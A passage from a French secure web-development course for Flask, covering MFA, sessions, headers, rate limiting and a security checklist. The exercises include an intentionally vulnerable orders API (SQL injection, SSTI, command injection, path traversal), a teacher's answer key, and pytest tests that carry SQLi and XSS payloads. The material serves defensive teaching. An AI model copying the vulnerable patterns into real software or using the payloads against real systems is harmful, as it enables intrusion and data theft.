    user = User.query.get(reset.user_id)
    user.password_hash = AuthService.hash_password(new_password)
    reset.used_at = datetime.utcnow()  # Token à usage unique

    # Invalider toutes les autres sessions
    invalidate_user_sessions(user.id)

    db.session.commit()

    # Notification de sécurité
    send_security_notification(user.email, "Mot de passe modifié")

    return jsonify({'message': 'Mot de passe réinitialisé'})
```

### 2.4.4 Multi-Factor Authentication (TOTP)

```python
# mfa.py - Implémentation TOTP
import pyotp
import qrcode
import io
import base64

class MFAService:
    @staticmethod
    def generate_secret() -> str:
        """Génère un secret TOTP base32"""
        return pyotp.random_base32()

    @staticmethod
    def generate_qr_code(user_email: str, secret: str) -> str:
        """Génère un QR code pour Google Authenticator"""
        uri = pyotp.totp.TOTP(secret).provisioning_uri(
            name=user_email,
            issuer_name='VulnPyApp'
        )
        img = qrcode.make(uri)
        buffer = io.BytesIO()
        img.save(buffer, format='PNG')
        return base64.b64encode(buffer.getvalue()).decode()

    @staticmethod
    def verify_token(secret: str, token: str) -> bool:
        """Vérifie un code TOTP avec fenêtre de tolérance"""
        totp = pyotp.TOTP(secret)
        return totp.verify(token, valid_window=1)  # ±30s

@app.route('/mfa/setup', methods=['POST'])
@login_required
def setup_mfa():
    secret = MFAService.generate_secret()
    # Stocker en attente (pas encore activé)
    current_user.mfa_secret_pending = secret
    db.session.commit()

    return jsonify({
        'qr_code': MFAService.generate_qr_code(current_user.email, secret),
        'manual_entry': secret
    })

@app.route('/mfa/verify', methods=['POST'])
@login_required
def verify_mfa_setup():
    token = request.json.get('token')
    if MFAService.verify_token(current_user.mfa_secret_pending, token):
        current_user.mfa_secret = current_user.mfa_secret_pending
        current_user.mfa_enabled = True
        current_user.mfa_secret_pending = None
        # Générer des backup codes
        backup_codes = [secrets.token_hex(4) for _ in range(10)]
        current_user.backup_codes = [hashlib.sha256(c.encode()).hexdigest()
                                       for c in backup_codes]
        db.session.commit()
        return jsonify({'backup_codes': backup_codes})
    return jsonify({'error': 'Code invalide'}), 400
```

**Facteurs d'authentification** : le MFA combine au moins deux facteurs parmi :
- **Ce que je sais** : mot de passe, code PIN
- **Ce que je possède** : smartphone (TOTP), clé de sécurité (FIDO2/WebAuthn)
- **Ce que je suis** : empreinte digitale, reconnaissance faciale

---

## Module 2.5 - Sessions, cookies et headers (30 min)

### 2.5.1 Configuration sessions sécurisées

```python
# config.py
import secrets
from datetime import timedelta

class Config:
    # Secret key forte (32 bytes minimum)
    SECRET_KEY = os.environ.get('SECRET_KEY') or secrets.token_hex(32)

    # Sessions
    SESSION_TYPE = 'redis'  # Sessions côté serveur (pas en cookie)
    SESSION_REDIS = redis.Redis(host='localhost', port=6379)
    PERMANENT_SESSION_LIFETIME = timedelta(hours=1)
    SESSION_PERMANENT = False

    # Cookies de session
    SESSION_COOKIE_NAME = 'app_session'  # Pas le nom par défaut
    SESSION_COOKIE_SECURE = True         # HTTPS uniquement
    SESSION_COOKIE_HTTPONLY = True       # Inaccessible via JS
    SESSION_COOKIE_SAMESITE = 'Strict'   # Protection CSRF
    SESSION_COOKIE_DOMAIN = '.app.com'
    SESSION_COOKIE_PATH = '/'

    # Régénération de session
    SESSION_REFRESH_EACH_REQUEST = True
```

### 2.5.2 Gestion de session sécurisée

```python
# session_manager.py
from flask import session
import secrets

class SessionManager:
    @staticmethod
    def login_user(user):
        """Connexion : régénération complète de la session"""
        # Sauvegarder éventuels flash messages
        flash_messages = session.get('_flashes', [])

        # Vider et régénérer la session (anti-fixation)
        session.clear()
        session.regenerate() if hasattr(session, 'regenerate') else None

        # Nouvelle session
        session['user_id'] = user.id
        session['session_id'] = secrets.token_urlsafe(32)
        session['ip'] = request.remote_addr
        session['user_agent'] = request.headers.get('User-Agent', '')
        session['created_at'] = datetime.utcnow().isoformat()

        if flash_messages:
            session['_flashes'] = flash_messages

    @staticmethod
    def logout_user():
        """Déconnexion : destruction complète"""
        session.clear()

    @staticmethod
    def validate_session():
        """Validation à chaque requête"""
        if 'user_id' not in session:
            return False

        # Vérifier que l'IP n'a pas changé (anti-hijacking)
        if session.get('ip') != request.remote_addr:
            session.clear()
            return False

        # Vérifier le user agent
        if session.get('user_agent') != request.headers.get('User-Agent', ''):
            session.clear()
            return False

        # Limite de durée absolue
        created = datetime.fromisoformat(session.get('created_at'))
        if datetime.utcnow() - created > timedelta(hours=12):
            session.clear()
            return False

        return True

@app.before_request
def check_session():
    if request.endpoint and 'auth' in request.endpoint:
        return  # Pas de check sur les endpoints d'auth
    if 'user_id' in session and not SessionManager.validate_session():
        abort(401)
```

### 2.5.3 Headers de sécurité avec Talisman

```python
# security_headers.py
from flask_talisman import Talisman

csp = {
    'default-src': "'self'",
    'script-src': ["'self'", "'nonce-{nonce}'"],
    'style-src': ["'self'", "'unsafe-inline'"],
    'img-src': ["'self'", 'data:', 'https:'],
    'font-src': ["'self'", 'https://fonts.gstatic.com'],
    'connect-src': "'self'",
    'frame-ancestors': "'none'",
    'form-action': "'self'",
    'base-uri': "'self'",
    'object-src': "'none'",
    'upgrade-insecure-requests': '',
}

Talisman(
    app,
    # HTTPS
    force_https=True,
    force_https_permanent=True,
    strict_transport_security=True,
    strict_transport_security_max_age=31536000,
    strict_transport_security_include_subdomains=True,
    strict_transport_security_preload=True,

    # CSP
    content_security_policy=csp,
    content_security_policy_nonce_in=['script-src'],

    # Autres headers
    frame_options='DENY',
    referrer_policy='strict-origin-when-cross-origin',
    feature_policy={
        'geolocation': "'none'",
        'microphone': "'none'",
        'camera': "'none'",
    },

    # Cookies
    session_cookie_secure=True,
    session_cookie_http_only=True,
)

# Headers complémentaires
@app.after_request
def add_security_headers(response):
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['Cross-Origin-Opener-Policy'] = 'same-origin'
    response.headers['Cross-Origin-Embedder-Policy'] = 'require-corp'
    response.headers['Cross-Origin-Resource-Policy'] = 'same-origin'

    # Désactiver le cache pour pages sensibles
    if request.path.startswith('/account'):
        response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate'
        response.headers['Pragma'] = 'no-cache'
    return response
```

---

## Module 2.6 - Protection anti-bot et rate limiting (25 min)

### 2.6.1 Rate Limiting avec Flask-Limiter

```python
# rate_limiting.py
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

limiter = Limiter(
    app=app,
    key_func=get_remote_address,
    default_limits=["200 per day", "50 per hour"],
    storage_uri="redis://localhost:6379",  # Stockage distribué
    strategy="fixed-window"  # ou "moving-window" pour plus de précision
)

# Endpoints sensibles : limites strictes
@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute; 20 per hour")
def login():
    pass

@app.route('/forgot-password', methods=['POST'])
@limiter.limit("3 per hour")
def forgot_password():
    pass

@app.route('/api/search')
@limiter.limit("30 per minute")
def search():
    pass

# Limite custom par utilisateur authentifié
def user_or_ip():
    if current_user.is_authenticated:
        return f"user:{current_user.id}"
    return get_remote_address()

@app.route('/api/heavy-operation')
@limiter.limit("10 per hour", key_func=user_or_ip)
def heavy_op():
    pass

# Réponse personnalisée
@app.errorhandler(429)
def ratelimit_handler(e):
    return jsonify({
        'error': 'Trop de requêtes',
        'retry_after': e.description
    }), 429
```

**Stratégies de comptage** :
- **Fixed Window** : compteur remis à zéro à intervalle fixe (ex. toutes les minutes) - simple mais peut laisser passer des pics en fin de fenêtre
- **Sliding Window** : fenêtre glissante plus précise (ex. dernière minute glissante à tout instant) - recommandé pour les endpoints sensibles
- **Token Bucket** : nombre fixe de tokens consommés par requête, régénérés périodiquement - lisse le trafic
- **Leaky Bucket** : file d'attente de taille fixe traitée à débit constant ; l'excès est immédiatement rejeté - garantit un débit stable mais peut éliminer des pics légitimes

**Déroulement du rate limiting** : chaque requête est comptée par clé (IP, user_id, endpoint). Quand le seuil est dépassé, le serveur retourne 429 avec un en-tête Retry-After.



### 2.6.2 CAPTCHA (reCAPTCHA v3)

```python
# captcha.py
import requests

class CaptchaService:
    SECRET = os.environ.get('RECAPTCHA_SECRET')
    THRESHOLD = 0.5  # Score minimum (v3)

    @classmethod
    def verify(cls, token: str, action: str, remote_ip: str = None) -> bool:
        try:
            response = requests.post(
                'https://www.google.com/recaptcha/api/siteverify',
                data={
                    'secret': cls.SECRET,
                    'response': token,
                    'remoteip': remote_ip
                },
                timeout=5
            )
            data = response.json()
            return (
                data.get('success', False) and
                data.get('score', 0) >= cls.THRESHOLD and
                data.get('action') == action
            )
        except Exception:
            return False

@app.route('/register', methods=['POST'])
def register():
    captcha_token = request.form.get('g-recaptcha-response')
    if not CaptchaService.verify(captcha_token, 'register', request.remote_addr):
        return jsonify({'error': 'Captcha invalide'}), 400
    # Suite de l'inscription...
```

### 2.6.3 Détection de comportements suspects

```python
# anomaly_detection.py
from collections import defaultdict
from datetime import datetime, timedelta

class AnomalyDetector:
    """Détection basique de comportements suspects"""

    @staticmethod
    def check_login_anomalies(user, request):
        """Vérifie les anomalies à la connexion"""
        alerts = []

        # Nouvelle localisation géographique
        ip_country = get_country_from_ip(request.remote_addr)
        if user.last_login_country and ip_country != user.last_login_country:
            alerts.append({
                'type': 'new_country',
                'severity': 'medium',
                'data': {'country': ip_country}
            })

        # Connexion depuis nouveau device
        device_fingerprint = generate_device_fingerprint(request)
        if device_fingerprint not in user.known_devices:
            alerts.append({
                'type': 'new_device',
                'severity': 'low',
                'data': {'fingerprint': device_fingerprint}
            })

        # Heure inhabituelle
        hour = datetime.utcnow().hour
        if user.typical_hours and hour not in user.typical_hours:
            alerts.append({
                'type': 'unusual_time',
                'severity': 'low'
            })

        return alerts

    @staticmethod
    def handle_alerts(user, alerts):
        """Réponse adaptative aux alertes"""
        severity_max = max((a['severity'] for a in alerts), default='none')

        if severity_max == 'high':
            # Bloquer + notifier
            user.locked_until = datetime.utcnow() + timedelta(hours=1)
            send_security_alert(user.email, alerts)
        elif severity_max == 'medium':
            # Demander MFA obligatoire
            return 'require_mfa'
        elif severity_max == 'low':
            # Notification seulement
            send_notification(user.email, alerts)

        return 'allow'
```

---

## Module 2.7 - Plan de sécurité applicative (20 min)

### 2.7.1 SDLC sécurisé



### 2.7.2 Outils Python pour le SDLC sécurisé

**SAST (Static Application Security Testing)** :

```bash
# Bandit - SAST Python
pip install bandit
bandit -r ./app -f json -o bandit_report.json

# Semgrep - patterns custom
pip install semgrep
semgrep --config=auto ./app
```

**SCA (Software Composition Analysis)** :

```bash
# Safety - vulnérabilités dans dépendances
pip install safety
safety check --json

# pip-audit - audit officiel PyPA
pip install pip-audit
pip-audit -r requirements.txt
```

**Pre-commit hooks** :

```yaml
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/PyCQA/bandit
    rev: 1.7.5
    hooks:
      - id: bandit
        args: ['-r', 'app/']

  - repo: https://github.com/Yelp/detect-secrets
    rev: v1.4.0
    hooks:
      - id: detect-secrets
        args: ['--baseline', '.secrets.baseline']

  - repo: https://github.com/pypa/pip-audit
    rev: v2.6.1
    hooks:
      - id: pip-audit
```

### 2.7.3 Checklist Security by Design

```markdown
## ✅ Checklist complète Security by Design

### Authentification
- [ ] Mots de passe hashés avec Argon2 (ou bcrypt rounds≥12)
- [ ] Politique de mot de passe forte (≥12 chars, complexité)
- [ ] Vérification HaveIBeenPwned au signup
- [ ] MFA disponible (TOTP) pour comptes sensibles
- [ ] Protection brute force (rate limiting + lockout progressif)
- [ ] Réinitialisation par token à usage unique, expirant
- [ ] Pas d'énumération possible (timing constant)
- [ ] Régénération session après login (anti-fixation)
- [ ] Logout invalide réellement la session côté serveur

### Autorisation
- [ ] Principe du moindre privilège
- [ ] Vérification serveur systématique (jamais que client)
- [ ] Pas d'IDOR (filtrage par owner ou UUIDs)
- [ ] RBAC ou ABAC implémenté
- [ ] Mass assignment empêché (whitelist/schemas)

### Données
- [ ] Chiffrement au repos (AES-256-GCM)
- [ ] Chiffrement en transit (TLS 1.2+ uniquement)
- [ ] Minimisation des données (RGPD)
- [ ] PII jamais loggées
- [ ] Anonymisation/pseudonymisation où possible
- [ ] Politique de rétention définie et appliquée
- [ ] Procédures RGPD : accès, suppression, portabilité

### Validation et encodage
- [ ] Validation côté serveur (Pydantic/Marshmallow)
- [ ] Échappement contextuel (HTML, JS, SQL, URL)
- [ ] Requêtes paramétrées partout
- [ ] Templates avec auto-escape activé
- [ ] Pas de eval(), exec(), pickle non sécurisé

### Communication
- [ ] HTTPS obligatoire (HSTS preload)
- [ ] Headers de sécurité (Talisman)
- [ ] CSP stricte (pas de unsafe-inline si possible)
- [ ] Cookies : Secure, HttpOnly, SameSite=Strict
- [ ] CORS restrictif (pas de wildcard avec credentials)

### Infrastructure
- [ ] WAF en place (Cloudflare, AWS WAF, ModSecurity)
- [ ] Secrets dans vault (jamais en code)
- [ ] Dépendances scannées (Dependabot + safety)
- [ ] Container scanné (Trivy, Grype)
- [ ] Configuration durcie (CIS Benchmarks)
- [ ] Backups chiffrés et testés

### Monitoring et réponse
- [ ] Logs de sécurité centralisés (SIEM)
- [ ] Alertes sur événements critiques
- [ ] Détection d'anomalies
- [ ] Plan de réponse aux incidents documenté
- [ ] Tests de restauration de backup
- [ ] Bug bounty / programme de divulgation

### Processus
- [ ] Threat modeling à la conception
- [ ] Code review obligatoire (avec checklist sécu)
- [ ] SAST en CI/CD (Bandit, Semgrep)
- [ ] DAST périodique (ZAP, Burp)
- [ ] Pentest annuel
- [ ] Formation sécurité de l'équipe
- [ ] Veille CVE active
```

---

# 📝 EXERCICES SÉANCE 2

## Exercice 2.A — Revue de Code Sécurité (Travail individuel en séance)

```
┌─────────────────────────────────────────────────────────────┐
│  Durée : 45 minutes EN SÉANCE (documents autorisés)         │
│  Rendu : PDF via formulaire en ligne avant la fin de séance │
│  Pondération : 15% de la note finale                        │
└─────────────────────────────────────────────────────────────┘
```

### 🎯 Consigne

Le code suivant est un extrait d'une application Flask de gestion de commandes. Il contient **6 vulnérabilités de sécurité**.

**Pour chaque vulnérabilité :**
1. Indiquer le numéro de ligne
2. Nommer la vulnérabilité
3. Donner le CWE correspondant
4. Évaluer le score CVSS v3.1 (vecteur simplifié accepté)
5. Proposer une correction (code ou description)

---

### 📄 Code à analyser — `orders_api.py`

```python
# orders_api.py - API de gestion des commandes
# Version : 1.0 (production)
import os
import hashlib
import sqlite3
from flask import Flask, request, jsonify, render_template_string, session

app = Flask(__name__)
app.secret_key = "flask_secret_2024"                          # ligne 8

db_path = "orders.db"


def get_db():
    return sqlite3.connect(db_path)


# ── Authentification ──────────────────────────────────────────
@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    # Hashage du mot de passe
    pwd_hash = hashlib.md5(password.encode()).hexdigest()      # ligne 23

    conn = get_db()
    query = f"""
        SELECT id, username, role
        FROM users
        WHERE username = '{username}'                          # ligne 29
        AND password_hash = '{pwd_hash}'
    """
    cursor = conn.execute(query)                               # ligne 32
    user = cursor.fetchone()
    conn.close()

    if user:
        session['user_id'] = user[0]
        session['username'] = user[1]
        session['role'] = user[2]
        return jsonify({'status': 'ok', 'role': user[2]})

    return jsonify({'status': 'error', 'message': 'Invalid credentials'}), 401


# ── Commandes ────────────────────────────────────────────────
@app.route('/api/orders/<int:order_id>', methods=['GET'])
def get_order(order_id):
    if 'user_id' not in session:
        return jsonify({'error': 'Unauthorized'}), 401

    conn = get_db()
    # Récupération de la commande par ID
    order = conn.execute(
        "SELECT * FROM orders WHERE id = ?", (order_id,)
    ).fetchone()                                               # ligne 52
    conn.close()

    if not order:
        return jsonify({'error': 'Not found'}), 404

    return jsonify({
        'id': order[0],
        'user_id': order[1],
        'product': order[2],
        'amount': order[3],
        'address': order[4]
    })


@app.route('/api/orders', methods=['POST'])
def create_order():
    if 'user_id' not in session:
        return jsonify({'error': 'Unauthorized'}), 401

    data = request.get_json()

    # Création de la commande avec toutes les données reçues
    conn = get_db()
    conn.execute("""
        INSERT INTO orders (user_id, product, amount, address, status, is_paid)
        VALUES (?, ?, ?, ?, ?, ?)
    """, (
        data.get('user_id', session['user_id']),               # ligne 77
        data.get('product'),
        data.get('amount'),
        data.get('address'),
        data.get('status', 'pending'),                         # ligne 81
        data.get('is_paid', 0)                                 # ligne 82
    ))
    conn.commit()
    conn.close()
    return jsonify({'status': 'created'}), 201


# ── Administration ───────────────────────────────────────────
@app.route('/admin/report')
def admin_report():
    if session.get('role') != 'admin':
        return jsonify({'error': 'Forbidden'}), 403

    report_name = request.args.get('report', 'default')

    # Rendu du rapport
    template = f"""
    <html>
    <body>
        <h1>Rapport : {report_name}</h1>                      # ligne 98
        <p>Généré par : {session['username']}</p>
        <p>Total commandes : {{{{ total }}}}</p>
    </body>
    </html>
    """
    conn = get_db()
    total = conn.execute("SELECT COUNT(*) FROM orders").fetchone()[0]
    conn.close()
    return render_template_string(template, total=total)       # ligne 107


# ── Export ───────────────────────────────────────────────────
@app.route('/api/export')
def export_data():
    if 'user_id' not in session:
        return jsonify({'error': 'Unauthorized'}), 401

    filename = request.args.get('filename', 'export.csv')
    filepath = os.path.join('/app/exports', filename)          # ligne 116

    if os.path.exists(filepath):
        with open(filepath, 'r') as f:                        # ligne 118
            content = f.read()
        return content, 200, {'Content-Type': 'text/plain'}

    return jsonify({'error': 'File not found'}), 404


# ── Notifications ─────────────────────────────────────────────
@app.route('/api/notify', methods=['POST'])
def send_notification():
    if 'user_id' not in session:
        return jsonify({'error': 'Unauthorized'}), 401

    data = request.get_json()
    email = data.get('email', '')

    # Envoi de notification par email via sendmail
    os.system(f"sendmail -t {email} < /app/templates/notification.txt")  # ligne 133

    return jsonify({'status': 'sent'})


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')                       # ligne 138
```

---

### 📝 Grille de réponse — Exercice 2.A

```
┌─────────────────────────────────────────────────────────────────────────────┐
│  Nom / Prénom : ________________________________  Date : __________________ │
│  Durée restante : [  ] 45 min  [  ] 30 min  [  ] 15 min                    │
└─────────────────────────────────────────────────────────────────────────────┘
```

Pour chaque vulnérabilité (1 à 6) :

```
Ligne(s)     : _______
Nom          : ________________________________________________
CWE          : CWE-_______
CVSS Score   : _______ / 10   Vecteur : AV:_/AC:_/PR:_/UI:_/S:_/C:_/I:_/A:_
Impact       : ________________________________________________

Correction :
┌─────────────────────────────────────────────────────────────┐
│                                                             │
│                                                             │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

---

### ✅ Corrigé enseignant — Exercice 2.A

```
⚠️  NE PAS DISTRIBUER AUX ÉTUDIANTS AVANT LA FIN DE LA SÉANCE
```

| # | Ligne(s) | Vulnérabilité | CWE | CVSS | Correction |
|---|----------|---------------|-----|------|------------|
| 1 | 8 | Secret key statique | CWE-321 | 7.5 | `os.environ.get('SECRET_KEY')` |
| 2 | 23 | MD5 pour hash password | CWE-327 | 8.1 | `bcrypt.generate_password_hash()` |
| 3 | 29-32 | Injection SQL (login) | CWE-89 | 9.8 | `User.query.filter_by()` ORM |
| 4 | 52 | IDOR (get_order) | CWE-639 | 7.5 | Filtrer par `user_id=session['user_id']` |
| 5 | 77-82 | Mass Assignment | CWE-915 | 8.1 | Allowlist + forcer `user_id=session['user_id']` |
| 6 | 98+107 | SSTI | CWE-1336 | 9.8 | `render_template()` avec variable séparée |
| 7 | 116-118 | Path Traversal | CWE-22 | 8.6 | `secure_filename()` + `realpath()` check |
| 8 | 133 | Command Injection | CWE-78 | 9.8 | `subprocess` list form, `shell=False` |
| 9 | 138 | Debug mode en production | CWE-94 | 5.3 | `debug=False`, variable d'env |

```
Note : 6 vulnérabilités requises / 9 présentes
→ Trouver 6+ = note maximale
→ Les étudiants qui trouvent 8 ou 9 = bonus +5 pts
```

---

## Exercice 2.B — Audit & Tests de Sécurité (Binôme, 1 semaine)

```
┌─────────────────────────────────────────────────────────────┐
│  Durée : 1h30 en séance + 1 semaine pour finalisation       │
│  Rendu : dépôt Git privé + rapport PDF                      │
│  Pondération : 25% de la note finale                        │
└─────────────────────────────────────────────────────────────┘
```

### 🎯 Objectifs

- Conduire un audit de sécurité structuré avec méthodologie OWASP
- Rédiger des tests de sécurité automatisés avec pytest
- Utiliser des outils d'analyse statique (Bandit, Safety)
- Produire un rapport d'audit professionnel

---

### 📋 PARTIE A — Audit outillé (40 pts)

#### A1 — Analyse statique avec Bandit *(10 pts)*

```bash
# Installation
pip install bandit

# Analyse du projet (branche vulnérable)
git checkout student-starter
bandit -r . -x ./tests -f json -o bandit_report.json
bandit -r . -x ./tests -f txt  -o bandit_report.txt

# Visualisation
cat bandit_report.txt
```

**Travail attendu :**

```markdown
## Rapport Bandit

### Statistiques
- Fichiers analysés : X
- Issues HIGH severity : X
- Issues MEDIUM severity : X
- Issues LOW severity : X

### Top 5 des issues critiques

| Rank | Fichier | Ligne | Issue | Sévérité | CWE |
|------|---------|-------|-------|----------|-----|
| 1    |         |       |       |          |     |
| 2    |         |       |       |          |     |
...

### Faux positifs identifiés
[Issues Bandit qui ne sont PAS de vraies vulnérabilités + justification]

### Faux négatifs identifiés
[Vulnérabilités connues que Bandit N'A PAS détectées + explication]
```

---

#### A2 — Analyse des dépendances avec Safety *(10 pts)*

```bash
# Installation
pip install safety

# Analyse
safety check -r requirements.txt --json > safety_report.json
safety check -r requirements.txt

# Alternative : pip-audit
pip install pip-audit
pip-audit -r requirements.txt
```

**Travail attendu :**

```markdown
## Rapport Safety / pip-audit

### Dépendances vulnérables identifiées

| Package | Version actuelle | CVE | Sévérité | Description | Fix disponible |
|---------|-----------------|-----|----------|-------------|----------------|
|         |                 |     |          |             |                |

### Recommandations
[Pour chaque CVE : mettre à jour vers X.X.X ou mesure de mitigation]

### requirements.txt mis à jour
[Fournir le fichier avec versions corrigées]
```

---

#### A3 — Tests manuels OWASP Top 10 *(20 pts)*

Tester chaque catégorie OWASP sur l'application :

```markdown
## Checklist OWASP Top 10 2021

### A01 - Broken Access Control
- [ ] IDOR sur /api/orders/<id>
- [ ] Élévation de privilèges via mass assignment
- [ ] Accès direct à /admin sans authentification

Test effectué : ________________________________
Résultat : Vulnérable ✅ / Non vulnérable ❌
Preuve : [screenshot/payload]

### A02 - Cryptographic Failures
- [ ] Algorithme de hashage des mots de passe
- [ ] Transmission en clair (HTTP vs HTTPS)
- [ ] Clés secrètes en dur dans le code

Test effectué : ________________________________
Résultat : Vulnérable ✅ / Non vulnérable ❌

### A03 - Injection
- [ ] SQL Injection (login, search, API)
- [ ] Command Injection (/ping, /notify)
- [ ] SSTI (/hello, /admin/report)

Test effectué : ________________________________
Résultat : Vulnérable ✅ / Non vulnérable ❌

### A04 - Insecure Design
- [ ] Absence de rate limiting sur /login
- [ ] Pas de politique de mots de passe
- [ ] Gestion d'erreurs exposant des infos

### A05 - Security Misconfiguration
- [ ] Debug mode actif
- [ ] Headers de sécurité manquants
- [ ] Cookies sans flags Secure/HttpOnly

### A06 - Vulnerable Components
[Résultats Safety/pip-audit]

### A07 - Auth Failures
- [ ] Brute-force possible sur /login
- [ ] Session non invalidée à la déconnexion
- [ ] Tokens prévisibles

### A08 - Software & Data Integrity
- [ ] Absence vérification intégrité uploads
- [ ] CSRF sur les formulaires

### A09 - Logging Failures
- [ ] Tentatives d'authentification non loguées
- [ ] Informations sensibles dans les logs
- [ ] Pas d'alerting sur comportements suspects

### A10 - SSRF
- [ ] Tester si l'app fait des requêtes vers URLs fournies par l'utilisateur
```

---

### 📋 PARTIE B — Tests automatisés pytest *(40 pts)*

Compléter le fichier `tests/test_security_student.py` :

```python
# tests/test_security_student.py
"""
Tests de sécurité à compléter.
Objectif : 100% des tests doivent ÉCHOUER sur la branche vulnérable
           et PASSER sur la branche remediated.
"""
import pytest
import re
from app import create_app, db
from models import User, Comment, Order


@pytest.fixture
def app():
    app = create_app('testing')
    with app.app_context():
        db.create_all()
        # Créer utilisateurs de test
        alice = User(email='alice@test.com', username='alice', is_admin=False)
        alice.set_password('Alice123!')
        bob = User(email='bob@test.com', username='bob', is_admin=False)
        bob.set_password('Bob123!')
        admin = User(email='admin@test.com', username='admin', is_admin=True)
        admin.set_password('Admin123!')
        db.session.add_all([alice, bob, admin])
        db.session.commit()
        yield app
        db.drop_all()


@pytest.fixture
def client(app):
    return app.test_client()


@pytest.fixture
def alice_client(client):
    """Client connecté en tant qu'alice"""
    client.post('/login', data={
        'email': 'alice@test.com',
        'password': 'Alice123!'
    })
    return client


# ═══════════════════════════════════════════════════════════════
# SECTION 1 — SQL INJECTION (20 pts)
# ═══════════════════════════════════════════════════════════════

class TestSQLInjection:

    def test_login_sqli_bypass_blocked(self, client):
        """
        TODO : Vérifier que le payload SQLi de bypass est bloqué.
        Le payload ' OR '1'='1' -- ne doit pas permettre la connexion.
        Assertion attendue : status_code == 401 ou redirection vers login
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        payload = {
            'email': "' OR '1'='1' --",
            'password': 'anything'
        }
        response = ...  # effectuer la requête POST /login
        assert ...      # vérifier que la connexion est refusée
        # ───────────────────────────────────────────────────────

    def test_login_sqli_comment_blocked(self, client):
        """
        TODO : Tester le payload avec commentaire SQL '--'
        L'email admin'-- ne doit pas permettre la connexion.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        pass
        # ───────────────────────────────────────────────────────

    def test_search_union_injection_blocked(self, alice_client):
        """
        TODO : Vérifier que l'injection UNION sur /search est bloquée.
        Le payload UNION SELECT ne doit pas retourner des données
        de la table 'user' dans les résultats de recherche.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        sqli_payload = "' UNION SELECT id,email,password_hash,4,5 FROM user--"
        response = ...
        data = response.get_data(as_text=True)
        # Vérifier qu'aucun email @test.com n'apparaît dans les résultats
        assert ...
        # ───────────────────────────────────────────────────────

    def test_search_normal_query_works(self, alice_client):
        """
        TODO : S'assurer que la recherche normale fonctionne toujours
        après correction (test de non-régression).
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        pass
        # ───────────────────────────────────────────────────────

    def test_api_blind_sqli_boolean_blocked(self, alice_client, app):
        """
        TODO : Vérifier que l'injection booléenne est bloquée sur
        /api/users/<id>. Les deux requêtes suivantes doivent retourner
        le même résultat (pas de différence exploitable).
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        pass
        # ───────────────────────────────────────────────────────


# ═══════════════════════════════════════════════════════════════
# SECTION 2 — XSS (20 pts)
# ═══════════════════════════════════════════════════════════════

class TestXSS:

    def test_xss_reflected_search_escaped(self, alice_client):
        """
        TODO : Vérifier que le XSS réfléchi sur /search est échappé.
        La balise <script> doit apparaître encodée dans la réponse HTML,
        pas comme balise HTML active.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        xss_payload = '<script>alert(1)</script>'
        response = alice_client.get(f'/search?q={xss_payload}')
        data = response.get_data(as_text=True)

        # La balise ne doit PAS être présente telle quelle
        assert '<script>alert(1)</script>' not in data

        # Elle doit être encodée (au moins l'une de ces formes)
        assert '&lt;script&gt;' in data or 'alert' not in data
        # ───────────────────────────────────────────────────────

    def test_xss_stored_bleach_sanitized(self, alice_client, app):
        """
        TODO : Poster un commentaire avec payload XSS et vérifier
        qu'il est sanitisé par Bleach avant stockage ET affichage.
        Les attributs 'onerror', 'onload', 'onclick' doivent être supprimés.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        xss_payload = ''

        # Poster le commentaire
        post_response = ...

        # Récupérer la page des commentaires
        get_response = ...
        data = get_response.get_data(as_text=True)

        # L'attribut onerror ne doit pas être présent
        assert 'onerror' not in data
        assert 'alert' not in data
        # ───────────────────────────────────────────────────────

    def test_xss_allowed_tags_preserved(self, alice_client):
        """
        TODO : Vérifier que les tags HTML autorisés par Bleach
        sont bien conservés (b, i, em, strong).
        Test de non-régression : les mises en forme légitimes fonctionnent.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        pass
        # ───────────────────────────────────────────────────────

    def test_xss_script_tag_variants_blocked(self, alice_client):
        """
        TODO : Tester plusieurs variantes de payloads XSS.
        Tous doivent être bloqués/échappés.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        variants = [
            '<script>alert(1)</script>',
            '<SCRIPT>alert(1)</SCRIPT>',
            '<scr<script>ipt>alert(1)</scr</script>ipt>',
            'javascript:alert(1)',
            '',
            '<svg onload=alert(1)>',
            '"><script>alert(1)</script>',
        ]
        for payload in variants:
            response = alice_client.post('/comments', data={
                'content': payload,
                'csrf_token': ...  # récupérer le token
            })
            # Vérifier que le payload n'est pas exécutable dans la réponse
            # ─── À COMPLÉTER ─────────────────────────────────
            pass
        # ───────────────────────────────────────────────────────

    def test_csp_header_present(self, client):
        """
        TODO : Vérifier que le header Content-Security-Policy
        est présent dans les réponses et contient les directives minimales.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        response = client.get('/')
        csp = response.headers.get('Content-Security-Policy', '')

        assert csp != '', "CSP header manquant"
        assert "default-src" in csp or "script-src" in csp
        assert "unsafe-inline" not in csp, "unsafe-inline interdit dans script-src"
        # ───────────────────────────────────────────────────────


# ═══════════════════════════════════════════════════════════════
# SECTION 3 — AUTHENTIFICATION & SESSIONS (20 pts)
# ═══════════════════════════════════════════════════════════════

class TestAuthentication:

    def test_password_not_md5(self, app):
        """
        TODO : Vérifier que les mots de passe ne sont pas hashés en MD5.
        Un hash MD5 fait 32 caractères hexadécimaux.
        Un hash bcrypt commence par $2b$.
        """
        # ─── À COMPLÉTER ───────────────────────────────────────
        with app.app_context():
            user = User.query.filter_by(email='alice@test.com').first()
            pwd_hash = user.password_hash

            # Ne doit pas être MD5 (32 hex chars)
            assert not re.match(r'^[a-f0-9]{32}$', pwd_hash), \
                "MD5 détecté ! Utiliser bcrypt."

            # Doit être bcrypt
            assert pwd_hash.startswith('$2b$') or pwd_hash.startswith('$2a$'), \
                "Le hash doit être bcrypt."
        # ───────────────────────────────────────────────────────

